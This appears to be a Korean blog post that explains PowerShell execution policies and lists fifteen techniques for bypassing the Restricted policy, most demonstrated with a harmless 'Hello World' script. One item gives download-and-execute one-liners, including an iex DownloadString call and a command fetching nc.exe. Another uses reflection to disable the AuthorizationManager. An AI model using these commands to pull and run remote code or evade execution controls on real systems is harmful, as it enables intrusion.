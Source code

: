 ```yaml
---
layout: post
title: Execution Policy의 Restricted을 우회하여 PowerShell 실행
description: "Execution Policy의 Restricted을 우회하여 PowerShell 실행"
modified: 2018-12-19
tags: [PowerShell]
---
```



## 개요
> 윈도우 파워셸(Windows PowerShell)은 마이크로소프트가 개발한 확장 가능한 명령 줄 인터페이스(CLI) 셸 및 스크립트 언어를 특징으로 하는 명령어 인터프리터이다. 스크립트 언어는 닷넷 프레임워크 2.0을 기반으로 객체 지향에 근거해 설계되었다. - wikipedia

- `ps1` 파일은 기본 보안정책으로 사용이 불가능
    + Windows Server 2012 R2만 기본 보안정책 설정이 `RemoteSigned`
    + 그 외 모든 버전(Windows 8.1 포함)은 기본 보안정책 설정이 `Restricted`
- 스크립트를 실행하려면 Execution Policy 허용 필요
    + 로컬 컴퓨터에서는 관리자 권한으로 Execution Policy 설정이 가능
    + 보안 강화를 위해 Active Directory의 Group Policy를 통하여 설정 가능  
    + Active Directory > Group Policy Management > `Turn on Script Execution` 설정
    ![](https://user-images.githubusercontent.com/16396760/50433736-61249600-091d-11e9-94f5-5d66aa02c215.png)
    + Group Policy 설정하면 관리자 권한으로도 Policy Execution 을 변경 불가
    ![](https://user-images.githubusercontent.com/16396760/50433738-61bd2c80-091d-11e9-9efd-b8d472b55b08.PNG)


-----
## 테스트 환경 설정

### Execution Policy 확인  
```
 PS > Get-ExecutionPolicy -List | ft -Autosize
```
![001](https://user-images.githubusercontent.com/16396760/50223763-752d3c80-03df-11e9-87da-b9c1de4b4c6d.png)

### 실행 정책 변경 (관리자 권한)  
```
PS > Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
PS > Set-ExecutionPolicy Bypass
PS > Set-ExecutionPolicy Restricted -Force
```
  
### Execution Policy 종류

| Policy | Local Script 실행 | Remote Script 실행 |
|:------:|:---------------:|:-----------------:| 
| Restricted| 불가능| 불가능 |
| AllSigned | 디지털 서명된 스크립트실행 가능 | 디지털 서명된 스크립트실행 가능|
| RemoteSigned | 가능 | 디지털 서명된 스크립트실행 가능|
| Unrestricted | 가능 | 가능 |
| Bypass | 가능 | 가능 |


- Remote Signed
    + 로컬 저장된 스크립트는 실행 가능
    + 원격에서 다운로드한 스크립트는 디지털 서명된 경우에만 실행 가능
        ```  
        PS > \\[원격]\Process.ps1
        PS > invoke-Expression -Command \\[원격]\Process.ps1
         ```
- UnRestricted
    + 원격에 있는 스크립트를 실행할때는 경고창을 출력후 실행
- Restricted
    + 로컬/원격 스크립트 모두 실행 불가
- Bypass
    + 로컬/원격 스크립트 실행 가능
         ```
        # 관리자 사용 
        PS > Set-ExcutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
         ```
- AllSigned
    + 스크립트에 디지털 서명이 되어있지 않으면 실행 불가
    + Group Policy로 AllSigned로 설정하면 각 컴퓨터에서는 설정 변경을 하지 못하므로 디지털 서명된 스크립트 파일만 실행 가능

----
## 정책을 우회 하여 PowerShell 실행
간단한 스크립트를 작성하여 ps1파일로 저장 후 실행
```
Write-Host "Hello World! run me!!!"
```
- `Get-ExecutionPolicy` 명령어로 실행 정책 확인
    ![003](https://user-images.githubusercontent.com/16396760/50223765-752d3c80-03df-11e9-9c4f-89365eba3494.png)
- `Restricted` 정책일 경우 PowerShell 스크립트 사용 불가
    ![002](https://user-images.githubusercontent.com/16396760/50223764-752d3c80-03df-11e9-80e0-9ec3bf400bc2.png)



1. Paste the Script into an Interactive PowerShell Console
    ![004](https://user-images.githubusercontent.com/16396760/50223766-75c5d300-03df-11e9-9f0e-bf8f2153b4ed.png)

2. Echo the Script and Pipe it to PowerShell Standard In
    ```
    Echo Write-Host "Hello World! run me!!!"  | PowerShell.exe -noprofile -
    ```  
    ![006](https://user-images.githubusercontent.com/16396760/50223768-75c5d300-03df-11e9-8a99-72de6bfb3a45.png)

3. Read Script from a File and Pipe to PowerShell Standard In
    ```
    Get-Content .run.ps1 | PowerShell.exe -noprofile - 
    ```
    ![005](https://user-images.githubusercontent.com/16396760/50223767-75c5d300-03df-11e9-8f83-27d1dc04ad28.png)
    ```
    TYPE .run.ps1 | PowerShell.exe -noprofile -
    ```
    ![007](https://user-images.githubusercontent.com/16396760/50223769-75c5d300-03df-11e9-8f2b-c01bd19044a7.png)

4. Download Script from URL and Execute with Invoke Expression
    ```
    powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL주소')"
    powershell -nop -c "Invoke-Expression(New-Object Net.WebClient).DownloadFile('URL주소', c:\temp\nc.exe)"
    ```

5. Use the Command Switch
    ```
    Powershell -command "Write-Host 'Hello World! run me!!!'"
    ```
    ![008](https://user-images.githubusercontent.com/16396760/50223770-765e6980-03df-11e9-81dd-c5e9aa859ffc.png)

6. Use the EncodeCommand Switch
    ```
    $command = "Write-Host 'Hello World! run me!!!'" 
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
    $encodedCommand = [Convert]::ToBase64String($bytes) 
    powershell.exe -EncodedCommand $encodedCommand
    ```
    ![010](https://user-images.githubusercontent.com/16396760/50223772-765e6980-03df-11e9-880b-9e3de9e40b8e.png)

    ![011](https://user-images.githubusercontent.com/16396760/50223773-76f70000-03df-11e9-86a1-2a7af5d44d3b.png)

7. Use the Invoke-Command Command
    ```
    invoke-command -scriptblock {Write-Host "Hello World! run me!!!"}
    ```
    ![012](https://user-images.githubusercontent.com/16396760/50223774-76f70000-03df-11e9-8804-f8bc44943a33.png)

8. Use the Invoke-Expression Command
    ![013](https://user-images.githubusercontent.com/16396760/50223775-76f70000-03df-11e9-8b4e-d89850d05b4c.png)

    ![014](https://user-images.githubusercontent.com/16396760/50223776-778f9680-03df-11e9-93b2-1f16dcc3cbba.png)

9. Use the “Bypass” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy Bypass -File .run.ps1
    ```
    ![015](https://user-images.githubusercontent.com/16396760/50223777-778f9680-03df-11e9-93cf-70c08125dc52.png)

10. Use the “Unrestricted” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy UnRestricted -File .run.ps1
    ```
    ![016](https://user-images.githubusercontent.com/16396760/50223779-78282d00-03df-11e9-911b-02ce4f8cd44a.png)

11. Use the “Remote-Signed” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy Remote-signed -File .run.ps1
    ```
    
12. Disable ExecutionPolicy by Swapping out the AuthorizationManager
    ```
    PS > function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
    PS > Disable-ExecutionPolicy
    PS > .\run.ps1
    ```
    ![017](https://user-images.githubusercontent.com/16396760/50223780-78282d00-03df-11e9-91a6-973303e626c2.png)

13. Set the ExcutionPolicy for the Process Scope
    ![018](https://user-images.githubusercontent.com/16396760/50223781-78282d00-03df-11e9-9508-1bad6439f319.png)

14. Set the ExcutionPolicy for the CurrentUser Scope via Command
    ```
    Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
    ```
    ![019](https://user-images.githubusercontent.com/16396760/50223782-78282d00-03df-11e9-9cd6-7a19350aaf5c.png)

15. Set the ExcutionPolicy for the CurrentUser Scope via the Registry
    ```
    HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell
    ```
    ![021](https://user-images.githubusercontent.com/16396760/50223784-78c0c380-03df-11e9-8676-246d6810a134.png)
    ![020](https://user-images.githubusercontent.com/16396760/50223783-78c0c380-03df-11e9-83c4-007639c7203b.png)

----
#### 참조
 [Microsoft](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-6)  
 [NETSPI](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)  
 [Winaero](https://winaero.com/blog/change-powershell-execution-policy-windows-10/)  
